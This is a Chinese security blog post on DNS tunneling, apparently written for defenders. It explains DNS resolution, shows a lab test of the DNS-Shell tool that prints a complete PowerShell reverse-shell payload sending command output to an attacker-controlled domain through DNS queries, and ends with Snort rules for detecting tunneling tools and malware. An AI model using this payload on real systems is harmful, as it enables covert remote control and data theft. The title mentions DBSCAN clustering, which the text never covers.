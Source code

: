 Title: 流量日志审计中常用的聚类算法（DBSCAN）
Date: 2018-07-05 20:20
Modified: 2018-07-05 20:20
Category: 安全
Tags: DBSCAN
Slug: P7
Authors: nJcx
Summary: 流量日志审计中常用的聚类算法（DBSCAN）~



#### DNS介绍

![icmp](../images/tcpip.gif)

我们先简单介绍一下 DNS协议，DNS协议是一个应用层协议，用来将域名转换为IP地址（也可以将IP地址转换为相应的域名地址），类似一个分布式数据库，数据通过udp传输,IP报头中的协议字段值为17.

DNS协议报文格式

![dns](../images/dns-protocol-format.png)

通过wireshark 抓到的包：

![dns](../images/dnswireshark.png)

由于关于dns报文介绍太长，参考下面url 

[DNS协议详解及报文格式分析](https://www.cnblogs.com/davidwang456/articles/10660051.html)


![dns](../images/dnsq.jpeg)

关于DNS请求的方式如图，
具体可描述如下： 

	1. 主机先向本地域名服务器进行递归查询 
	
	2. 本地域名服务器采用迭代查询，向一个根域名服务器进行查询 
	
	3. 根域名服务器告诉本地域名服务器，下一次应该查询的顶级域名服务器的IP地址 
	
	4. 本地域名服务器向顶级域名服务器进行查询 
	
	5. 顶级域名服务器告诉本地域名服务器，下一步查询权限服务器的IP地址 
	 
	6. 本地域名服务器向权威服务器进行查询 
	
	7. 权限服务器告诉本地域名服务器所查询的主机的IP地址 
	
	8. 本地域名服务器最后把查询结果告诉主机 


![dns](../images/dnstun.jpeg)


如果在企业内网，那么黑客的攻击机器，就是所谓的权威服务器

	第一步: 受控机向内部dns服务器发送一个查询NKNFjklKLuJNVIUM.ml.org的请求
	
	第二步：内部dns服务器通过防火墙向根dns服务器发出查询请求
	
	第三步：经过大量迭代后，DNS请求到达NKNFjklKLuJNVIUM.ml.org的权威DNS服务器（黑客所控制）
	
	第四步：受控机请求查询的响应通过防火墙返回到内部DNS服务器
	
	第五步：内部DNS服务器将响应结果返回给受控机


上面的流程展示了一个受控机在连接外部网络时dns解析的一个过程。由于防火墙并没有对dns协议做任何处理，所以我们可以通过这种方式来穿透防火墙。

这里很多人会有一个疑问，关于dns 请求查询NKNFjklKLuJNVIUMvKL.ml.org 是怎么到达黑客所控制的权威DNS服务器的？

请求一个域名，比如NKNFjklKLuJNVIUMvKL.ml.org ,本地DNS服务器上没有 NKNFjklKLuJNVIUMvKL.ml.org，那么它将向root，也就是根域名服务器请求，看看根知道不, root一看是.org的域名，就交 给.org域名服务器进行解析，.org的域名服务器一看是.ml.org那么就会去找.ml.org的域名服务器 (ns1.myhostadmin.net),看看它有没有这条记录，.ml.org的域名服务器上一看是.ml.org，如果它有这 条A记录，那么就会返回NKNFjklKLuJNVIUMvKL.ml.org 的记录。

但是，如果没有，你可以再在ml.org的域名服务器上设定一个NS 类型的记录，如：ml.org NS 111.222.333.444(通常这里不让设置为地址，你可以先在DNS服务器上添加一条A记录，如ns.ml.org A 111.222.333.444，再添加NS记录：ml.org NS ns.xxx.org)，这里指定一个公网服务器，就是黑客所控制的权威DNS服务器。


#### 测试


我们测试一下使用dns反弹shell，用于测试的域名： test.njcx.bid

该域名的dns服务器位于  ns1.njcx.bid（公网ip：111.222.333.444）


受控机Windows7 ：  172.16.42.134

控制机 CentOS7：  111.222.333.444

我们用到的工具
[DNS-Shell](https://github.com/sensepost/DNS-Shell)，我们在 CentOS7 上面执行  python DNS-shell.py -l -r test.njcx.bid ，接收由受控机过来的shell，执行后会生成一个 powershell的payload,保存为 ps1 Windows执行即可收到shell

```
$url = "test.njcx.bid";
function execDNS($cmd) {
$c = iex $cmd 2>&1 | Out-String;
$u = [system.Text.Encoding]::UTF8.GetBytes($c);
$string = [System.BitConverter]::ToString($u);
$string = $string -replace '-','';
$len = $string.Length;
$split = 50;
$repeat=[Math]::Floor($len/$split);
$remainder=$len%$split;
if($remainder){ $repeatr = $repeat+1};
$rnd = Get-Random;$ur = $rnd.toString()+".CMDC"+$repeatr.ToString()+"."+$url;
$q = nslookup -querytype=A $ur;
for($i=0;$i-lt$repeat;$i++){
    $str = $string.Substring($i*$Split,$Split);
    $rnd = Get-Random;$ur1 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur1;
};
if($remainder){
    $str = $string.Substring($len-$remainder);
    $i = $i +1
    $rnd = Get-Random;$ur2 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur2;
};
$rnd=Get-Random;$s=$rnd.ToString()+".END."+$url;$q = nslookup -querytype=A $s;
};
while (1){
   $c = Get-Random;
   Start-Sleep -s 3
   $u=$c.ToString()+"."+$url;$txt = nslookup -querytype=TXT $u | Out-String
   $txt = $txt.split("`n") | %{$_.split('"')[1]} | Out-String
   if ($txt -match 'NoCMD'){continue}
   elseif ($txt -match 'exit'){Exit}
   else{execDNS($txt)}
}   

```

shell 如下，

![dnsshell](../images/dnsshell.png)

我在被控机上抓包，如图，可以看出受控机器一直TXT请求 CentOS 控制机

![dnsshell](../images/WechatIMG25.jpeg)

![dnsshell](../images/WechatIMG26.jpeg)

可以看出我们的payload是 放到TXT字段里面，由CentOS 控制机响应给客户端的

![dnsshell](../images/WechatIMG21.jpeg)


然后，数据都分段放到子域名里面，分多次，再次用请求的方式，发送到我们的控制机器上了

![dnsshell](../images/WechatIMG23.jpeg)

#### 检测


我们可以看出一些特征 ：
	
	1， 请求的Type一般都是TXT（为了返回的时候能够加入更多的信息）。
	2， payload部分一般都会编码（可能为base64、2进制或16进制）后放到子域名里面，而且多变，不一致
	3， DNS发生频率很高，短时间为了发送大量数据，会产生大量请求
	
比如，DNS  TXT请求频率过高，就报警，例子如下

```
alert udp any any -> any 53 (msg:"High TXT requests - Potential DNS Tunneling"; content:"|01 00|"; offset:2; within :4; content:"|00 00 10 00 01|"; offset:12; within:255; threshold: type threshold, track by_src, count 10, seconds 5; sid: 5700002; rev: 1;)
```	
	
下面，收集了很多知名DNS利用工具的检测规则。

```javascript
alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"APP-DETECT iodine dns tunneling handshake server ACK"; flow:to_client; byte_test:1,&,0x80,2; content:"|00 01 00 01 00|"; depth:5; offset:4; content:"v"; within:1; distance:4; content:"VACK"; within:200; fast_pattern; metadata:service dns; reference:url,code.kryo.se/iodine/README.html; classtype:policy-violation; sid:27046; rev:3;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling up attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"-0"; distance:6; content:"id-"; within:3; distance:1; fast_pattern; content:"up"; within:8; detection_filter:track by_src, count 18, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27540; rev:4;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling down attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"id-"; distance:6; fast_pattern; content:"down"; within:10; distance:2; detection_filter:track by_dst, count 8, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27541; rev:4;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT Your-Freedom DNS tunneling query attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34496; rev:1;)

alert udp $EXTERNAL_NET 53 -> any any (msg:"APP-DETECT Your-Freedom DNS tunneling query response attempt"; flow:to_client; byte_test:1,!&,0x01,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34497; rev:1;)

alert udp $HOME_NET any -> any 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|00 01 00 00 00 00 00 00 1A|"; depth:9; offset:4; content:"|1A|"; within:1; distance:26; content:"|02|"; within:2; distance:26; metadata:service dns; classtype:policy-violation; sid:25983; rev:2;)

alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_client,no_stream; content:"|00 01 00 01 00 00 00 00|"; depth:8; offset:4; content:"|00 07 06|(){}[]"; fast_pattern; content:"|00 0A 00 01|"; within:4; distance:-17; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37891; rev:2;)

alert udp $HOME_NET any -> $EXTERNAL_NET 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server,no_stream; content:"|00 01 00 00 00 00 00 00|"; depth:8; offset:4; isdataat:80,relative; content:"|00 0A 00 01|"; within:15; distance:80; fast_pattern; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37892; rev:2;)

sid:2100208 (Tunneling IP over DNS with NSTX)
alert udp any any -> any 53 (msg:"GPL POLICY MISC Tunneling IP over DNS with NSTX"; byte_test: 1,>,32,12; content: "|00 10 00 01|"; offset: 12; rawbytes; threshold: type threshold, track by_src, count 50, seconds 60; reference:url,nstx.dereference.de/nstx/; reference:url,slashdot.org/articles/00/09/10/2230242.shtml; classtype:policy-violation; sid:2100208; rev:3; metadata:created_at 2010_09_23, updated_at 2010_09_23;)

sid:2024504 (ET TROJAN ISMAgent)
alert udp $HOME_NET any -> any 53 (msg:"ET TROJAN ISMAgent DNS Tunneling (microsoft-publisher . com)"; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"|13|microsoft-publisher|03|com|00|"; nocase; distance:0; fast_pattern; threshold:type limit, track by_src, count 1, seconds 60; metadata: former_category TROJAN; reference:md5,a70a08a1e17b820c7dc8ee1247d6bfa2; reference:url,researchcenter.paloaltonetworks.com/2017/07/unit42-oilrig-uses-ismdoor-variant-possibly-linked-greenbug-threat-group/; classtype:trojan-activity; sid:2024504; rev:3; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_07_28, malware_family Ismdoor, performance_impact Moderate, updated_at 2017_07_31;)

sid:2025072 (ET TROJAN Patchwork)
alert dns $HOME_NET any -> any any (msg:"ET TROJAN Patchwork DNS Tunneling (nsn1.winodwsupdates .me)"; dns_query; content:".nsn1.winodwsupdates.me"; isdataat:!1,relative; metadata: former_category TROJAN; reference:url,docs.google.com/document/d/1oYX3uN6KxIX_StzTH0s0yFNNoHDnV8VgmVqU5WoeErc; classtype:trojan-activity; sid:2025072; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_11_27, malware_family Patchwork, performance_impact Low, updated_at 2017_11_27;)

sid:2025894 (ET TROJAN OilRig)
alert dns $HOME_NET any -> any 53 (msg:"ET TROJAN OilRig QUADAGENT DNS Tunneling"; content:"|01|"; offset:2; depth:1; content:"|00 01 00 00 00 00 00|"; distance:1; within:7; content:"|04|mail|06|"; distance:0; nocase; pcre:"/^\d{6}/Ri"; content:"|07|cpuproc|03|com|00|"; fast_pattern; distance:0; within:13; nocase; threshold: type limit, count 1, seconds 60, track by_src; metadata: former_category TROJAN; reference:md5,d51c2ffce844d42bab2f2c3131e3dbd4; reference:url,researchcenter.paloaltonetworks.com/2018/07/unit42-oilrig-targets-technology-service-provider-government-agency-quadagent/; classtype:trojan-activity; sid:2025894; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2018_07_25, malware_family QuadAgent, performance_impact Low, updated_at 2018_07_25;)

```